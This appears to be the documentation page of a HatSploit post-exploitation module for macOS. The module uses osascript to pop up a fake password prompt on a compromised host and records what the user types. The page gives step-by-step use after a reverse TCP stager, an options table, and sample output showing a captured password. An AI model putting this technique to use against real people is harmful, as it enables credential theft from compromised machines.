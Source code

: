 # `post/macos/membrane/gather/prompt`

## Description

This module uses system `osascript` to prompt user to type password.

## Verification Steps

1. Start HatSploit
2. Run `exploit/macos/stager/membrane_reverse_tcp` on target
3. Do: `use post/macos/membrane/gather/prompt`
4. Do: `set SESSION` to your target session
5. Do: `run`

## Options

| Option    | Default Value | Required | Description        |
|-----------|---------------|----------|--------------------|
| `SESSION` | 0             | yes      | Session to run on. |

**SESSION**

Variable that contains session id to run post module on it.

## Scenarios

```
(hsf: post: macos/membrane/gather/prompt)> run
[*] Waiting for prompt window to appear...
[*] Waiting for user to type password...
[i] User entered: mysuperstrongpassword1234
(hsf: post: macos/membrane/gather/prompt)>
```
